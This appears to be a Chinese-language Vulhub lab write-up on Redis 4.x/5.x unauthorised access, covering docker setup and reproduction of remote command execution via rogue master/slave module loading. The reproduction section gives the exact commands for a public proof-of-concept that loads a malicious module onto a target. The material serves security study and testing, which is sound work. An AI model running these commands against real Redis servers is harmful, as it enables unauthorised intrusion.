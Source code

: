 # Redis 4.x/5.x 未授权访问漏洞

## 漏洞描述

Redis未授权访问在4.x/5.0.5以前版本下，我们可以使用master/slave模式加载远程模块，通过动态链接库的方式执行任意命令。

参考链接：

- https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

## 环境搭建

Vulhub执行如下命令启动redis 4.0.14：

```
docker-compose up -d
```

环境启动后，通过`redis-cli -h your-ip`即可进行连接，可见存在未授权访问漏洞。

## 漏洞复现

redis未授权访问：

![image-20220228201652953](./images/202202282016157.png)

使用如下POC即可直接执行命令https://github.com/vulhub/redis-rogue-getshell：

```
$ cd RedisModulesSDK/
$ make
$ python3 redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "id"
```

![image-20220228202202438](./images/202202282022614.png)